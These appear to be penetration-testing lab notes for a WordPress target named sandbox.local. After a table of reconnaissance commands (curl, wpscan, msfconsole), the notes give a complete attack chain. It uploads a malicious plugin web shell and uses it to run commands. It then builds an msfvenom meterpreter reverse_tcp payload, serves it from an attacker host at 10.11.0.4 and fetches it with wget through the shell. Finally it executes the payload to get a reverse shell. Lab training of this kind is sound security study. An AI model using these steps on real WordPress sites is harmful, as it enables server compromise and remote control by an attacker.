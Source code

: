 | **Command** | **Description** |
| --------------|-------------------|
|`tree -L 1`|  Lists contents of current directory |
|`curl -s -X GET <url>`| Makes a GET request to a webserver and receives HTML source code of requested web page |
|`curl -I -X GET <url>`| Prints the response header of the GET request from the requested web page |
|`curl -X POST -d <data> <url>`| Sends a POST request with data to specific webserver |
|`wpscan --url <url> -e ap`| Scans specific WordPress application to enumerate plugins |
|`wpscan --url <url> -e u`| Scans specific WordPress application to enumerate users |
|`msfconsole`| Starts Metasploit Framework |
|`html2text`|  Converts redirected HTML output or files to easily readable output |
|`grep <pattern>`| Filters specific pattern in files or redirected output |
|`jq`| Transforms JSON input and streams of JSON entities |
|`man <tool>`| Man provides you with the manpage of the specific tool |

`wpscan --url sandbox.local --enumerate ap,at,cb,dbe`

`sudo apt install seclists`
`cd /usr/share/seclists/Web-Shells/WordPress`
files: plugin-shell.php, bypass-login.php
`sudo zip plugin-shell.zip plugin-shell.php`

upload plugin to wordpress site

`curl http://sandbox.local/wp-content/plugins/plugin-shell/plugin-shell.php?cmd=whoami` | verify command injection works
`msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.11.0.4 LPORT=443 -f elf > shell.elf` | generate a payload to get shell
`sudo python3 -m http.server 80` | star python server on kali
`curl http://sandbox.local/wp-content/plugins/plugin-shell/plugin-shell.php?cmd=wget%20http://10.11.0.4/shell.elf` | download msfvenom shell payload
`curl http://sandbox.local/wp-content/plugins/plugin-shell/plugin-shell.php?cmd=chmod%20%2bx%20shell.elf` | modify permissions on file
`sudo msfconsole -q -x "use exploit/multi/handler;\
set PAYLOAD linux/x86/meterpreter/reverse_tcp;\
set LHOST 10.11.0.4;\
set LPORT 443;\
run"`
`curl http://sandbox.local/wp-content/plugins/plugin-shell/plugin-shell.php?cmd=./shell.elf` | execute reverse shell payload